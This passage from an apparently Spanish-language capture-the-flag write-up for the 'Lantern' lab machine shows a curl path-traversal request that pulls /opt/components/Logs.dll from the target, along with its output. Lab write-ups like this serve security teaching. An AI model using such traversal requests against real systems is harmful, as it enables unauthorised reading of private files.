 ![Write-up Image](images/Screenshot_18.png)

Recordemos que gracias al error anterior, la ruta de este archivo es `/opt/components/Logs.dll`

Vamos a descargar este archivo mediante el Path Traversal.

```shell
curl 'http://lantern.htb/PrivacyAndPolicy?lang=.&ext=/../../../../opt/components/Logs.dll' -o Logs.dll
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  8192  100  8192    0     0   102k      0 --:--:-- --:--:-- --:--:--  103k
┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/lantern/content]
└──╼ [★]$ file Logs.dll 
Logs.dll: PE32 executable (DLL) (console) Intel 80386 Mono/.Net assembly, for MS Windows, 3 sections
```

Me di cuenta de que el DLL que hemos creado anteriormente no es un componente válido de ASP.NET por eso no ejecuta ningún comando.